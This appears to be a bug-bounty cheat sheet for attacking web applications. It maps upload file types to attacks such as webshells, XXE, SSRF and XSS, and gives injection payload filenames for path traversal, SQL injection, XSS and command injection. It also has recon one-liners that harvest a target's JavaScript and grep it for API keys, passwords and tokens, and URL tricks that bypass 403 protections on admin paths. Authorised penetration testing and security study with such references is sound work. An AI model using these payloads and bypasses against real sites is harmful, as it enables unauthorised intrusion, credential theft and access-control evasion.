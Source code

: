 # Juicy GoogleDorks
```
site:example.com inurl:.cgi?
```
# File Upload and what to search
```
ASP / ASPX / PHP5 / PHP / PHP3: Webshell / RCE
SVG: Stored XSS / SSRF / XXE
GIF: Stored XSS / SSRF
CSV: CSV injection
XML: XXE
AVI: LFI / SSRF
HTML / JS : HTML injection / XSS / Open redirect
PNG / JPEG: Pixel flood attack (DoS)
ZIP: RCE via LFI / DoS
PDF / PPTX: SSRF / BLIND XXE
```
# File upload chain
```
../../../tmp/lol.png —> for path traversal
sleep(10)-- -.jpg —> for SQL injection
<svg onload=alert(document.domain)>.jpg/png —> for XSS
; sleep 10; —> for command injections
```
# Find JavaScript Files in Target.com
```
echo target.com | gau | grep '\.js$' | httpx -status-code -mc 200 -content-type | grep 'application/javascript'
or
cat domains | httpx -silent | subjs | anew
```
# Extract endpoints from \*.js 
```
cat file.js | grep -aoP "(?<=(\"|\'|\`))\/[a-zA-Z0-9_?&=\/\-\#\.]*(?=(\"|\'|\`))" | sort -u
```
# Extract juicy data from js  
```
cat hosts | httpx -silent | subjs | anew | httpx -silent -sr -mc 200 
grep -EHirn "accesskey|admn|aes|api_key|apikey|password|secret|token" ./output --color

```
# 403 bypass
```
https://target.com/admin/ –> HTTP 302 (redirect to login page)
https://target.com/admin..;/ –> HTTP 200 OK

https://target.com/../admin
https://target.com/whatever/..;/admin

site.com/secret –> HTTP 403 Forbidden
site.com/secret/ –> HTTP 200 OK
site.com/secret/. –> HTTP 200 OK
site.com//secret// –> HTTP 200 OK
site.com/./secret/.. –> HTTP 200 OK

```